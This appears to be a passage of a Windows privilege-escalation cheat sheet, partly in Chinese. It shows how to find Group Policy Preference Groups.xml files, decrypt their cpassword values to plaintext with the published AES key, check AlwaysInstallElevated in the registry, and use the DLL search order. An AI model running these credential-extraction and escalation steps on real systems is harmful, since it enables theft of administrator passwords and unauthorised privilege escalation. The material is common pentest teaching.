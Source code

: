 ## Groups.xml - Group Policy Preference saved passwords
[The AES Key](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be)
```
 4e 99 06 e8  fc b6 6c c9  fa f4 93 10  62 0f fe e8
 f4 96 e8 06  cc 05 79 90  20 9b 09 a4  33 b6 6c 1b
```
```
PS C:\Programdata> cmd.exe /c "dir /s /b | findstr Groups.xml"
C:\Programdata\Microsoft\Group Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml

PS C:\Programdata> Get-Content "C:\Programdata\Microsoft\Group Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml"
<?xml version="1.0" encoding="UTF-8" ?><Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
<User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="Administrator" image="2" changed="2019-01-28 23:12:48" uid="{CD450F70-CDB8-4948-B908-F8D038C59B6C}" userContext="0" removePolicy="0" policyApplied="1">
<Properties action="U" newName="" fullName="" description="" cpassword="CiDUq6tbrBL1m/js9DmZNIydXpsE69WB9JrhwYRW9xywOz1/0W5VCUz8tBPXUkk9y80n4vw74KeUWc2+BeOVDQ" changeLogon="0" noChange="0" neverExpires="1" acctDisabled="0" userName="Administrator"></Properties></User></Groups>
```
```
python Gpprefdecrypt.py CiDUq6tbrBL1m/js9DmZNIydXpsE69WB9JrhwYRW9xywOz1/0W5VCUz8tBPXUkk9y80n4vw74KeUWc2+BeOVDQ
MyUnclesAreMarioAndLuigi!!1!
```
> In addition to Groups.xml several other policy preference files can have the optional "cPassword" attribute set:
> Services\Services.xml: Element-Specific Attributes
> ScheduledTasks\ScheduledTasks.xml: Task Inner Element, TaskV2 Inner Element, ImmediateTaskV2 Inner Element
> Printers\Printers.xml: SharedPrinter Element
> Drives\Drives.xml: Element-Specific Attributes
> DataSources\DataSources.xml: Element-Specific Attributes

## AlwaysInstallElevated
`AlwaysInstallElevated` - 允許所有權限的使用者安裝 `*.msi` 成為 `NT AUTHORITY\SYSTEM`
兩個值都要是`1`
```
C:\Windows\system32> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
C:\Windows\system32> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
```


## DLL
DLL search order on 32-bit systems:
1. The directory from which the application loaded
2. 32-bit System directory (C:\Windows\System32)
3. 16-bit System directory (C:\Windows\System)
4. Windows directory (C:\Windows)
5. The current working directory (CWD) - 如果是 Windows Service 會在 C:\Windows 中
7. Directories in the PATH environment variable (system then user)
